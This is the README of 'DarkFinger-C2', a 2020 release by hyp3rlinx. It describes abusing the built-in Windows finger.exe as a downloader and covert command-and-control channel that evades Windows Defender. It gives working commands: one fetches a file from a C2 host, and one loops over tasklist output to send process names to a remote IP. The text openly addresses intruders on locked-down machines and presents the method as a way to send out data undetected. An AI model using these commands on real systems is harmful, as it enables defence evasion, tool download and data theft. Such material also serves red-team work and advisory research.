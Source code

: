 MIT License

Copyright (c) 2020 John Page (aka hyp3rlinx)

Permission is also explicitly given for insertion in vulnerability databases and similar,
provided that due credit is given to the author Copyright (c) 2020 John Page (aka hyp3rlinx).

# DarkFinger-C2
Windows TCPIP Finger Command / C2 Channel and Bypassing Security Software

http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

Microsoft Windows TCPIP Finger Command "finger.exe" that ships with the OS, can be used as a file downloader and makeshift C2 channel.
Legitimate use of Windows Finger Command is to send Finger Protocol queries to remote Finger daemons to retrieve user information.
However, the finger client can also save the remote server response to disk using the command line redirection operator ">".

Intruders who compromise a computer may find it is locked down and "unknown" applications may be unable to download programs or tools.
By using built-in native Windows programs, its possible they may be whitelisted by installed security programs and allowed to download files.

Redteams and such using LOL methods have made use of "Certutil.exe", native Windows program for downloading files. However, Certutil.exe is
recently blocked by Windows Defender Antivirus and logged as event "Trojan:Win32/Ceprolad.A" when it encounters http/https://.

Therefore, using Windows finger we can bypass current Windows Defender security restrictions to download tools, send commands and exfil data.
The Finger protocol as a C2 channel part works by abusing the "user" token of the FINGER Query protocol "user@host". C2 commands masked as
finger queries can download files and or exfil data without Windows Defender interference.

Download files:
C:\> finger <C2-Command>@HOST > Malwr.txt

Exfil running processes:
C:\> for /f "tokens=1" %i in ('tasklist') do finger %i@192.168.1.21

PoC
https://www.youtube.com/watch?v=cfbwS6zH7ks


